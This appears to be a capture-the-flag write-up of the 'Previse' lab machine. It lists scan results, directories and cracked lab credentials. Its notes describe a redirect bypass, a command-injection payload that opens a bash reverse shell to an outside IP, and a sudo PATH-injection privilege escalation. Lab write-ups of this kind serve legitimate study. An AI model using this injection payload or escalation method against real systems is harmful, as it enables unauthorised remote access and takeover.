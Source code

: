 # Previse

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| previse | 10.10.11.104 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.104 | 22   | tcp   | OpenSSH      | 7.6p1 Ubuntu 4ubuntu0.3 |
| 10.10.11.104 | 80   | tcp   | Apache httpd | 2.4.29                  |

## HEADERS

```
HTTP/1.1 302 Found
Date: Sun, 09 Jul 2023 17:50:25 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=iemleuslqlacu7c01vvv12cmah; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Type: text/html; charset=UTF-8
```

## DIRECTORIES

- /login.php
- /js                   [--> http://previse.htb/js/]
- /index.php            [--> login.php]
- /css                  [--> http://previse.htb/css/]
- /download.php         [--> login.php]
- /logout.php           [--> login.php]
- /files.php            [--> login.php]
- /logs.php             [--> login.php]
- /config.php
- /header.php
- /footer.php
- /accounts.php         [--> login.php]
- /nav.php
- /status.php           [--> login.php]

## USERS

- root mySQL_p@ssw0rd!:) (mysql)
- m4lwhere ilovecody112235!

## NOTES

- EAR vulnerable
- capture request to http://previse.htb/accounts.php
- forward and change the response header from 302 Found to 200 Ok forward again
- capture account creation request and send it in burp and login
- site backup in files
- `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");` in logs.php is vulnerable
- capture logs request and change delim parameter to inject a reverse shell into the command `delim=comma%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/2222+0>%261'`
- login to mysql and get password `select TO_BASE64(password) from accounts where id=1;` by converting to b64
- crack it and ssh as m4lwhere
- sudo -l `(root) /opt/scripts/access_backup.sh`
- script is vulnerable to PATH injection through the gzip binary
- create a reverse shell script in a writable directory called `gzip` and `export PATH=.:$PATH`
- run the script as sudo
